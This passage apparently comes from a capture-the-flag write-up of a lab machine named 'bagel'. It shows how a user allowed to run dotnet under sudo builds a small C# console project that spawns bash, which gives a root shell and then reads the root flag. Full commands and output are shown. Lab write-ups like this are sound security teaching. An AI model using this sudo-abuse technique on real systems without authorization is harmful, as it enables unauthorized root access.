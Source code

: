 #### Execution via New Project

For fun, I’ll show how to create a fill C# application instead of running it from the F# terminal. I’ll create a directory, `/dev/shm/exploit`, and go into it. From there, I’ll create a new project with `dotnet`:

```

[developer@bagel exploit]$ dotnet new console 
The template "Console App" was created successfully.

Processing post-creation actions...
Running 'dotnet restore' on /dev/shm/exploit/exploit.csproj...
  Determining projects to restore...
  Restored /dev/shm/exploit/exploit.csproj (in 163 ms).
Restore succeeded.

[developer@bagel exploit]$ ls
exploit.csproj  obj  Program.cs

```

This creates a `.csproj` file, a starter `Program.cs`, and an `obj` directory. The source is a simple Hello World:

```

// See https://aka.ms/new-console-template for more information
Console.WriteLine("Hello, World!");

```

It runs:

```

[developer@bagel exploit]$ dotnet run
Hello, World!

```

I’ll update `Program.cs` to invoke a shell just as I did above:

```

Console.WriteLine("Going into shell...");
System.Diagnostics.Process.Start("bash").WaitForExit();
Console.WriteLine("Left shell, exiting!");

```

It works:

```

[developer@bagel exploit]$ sudo dotnet run
Going into shell...
[root@bagel exploit]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@bagel exploit]# cat /root/root.txt
7ca14c4d************************
[root@bagel exploit]# exit
exit
Left shell, exiting!

```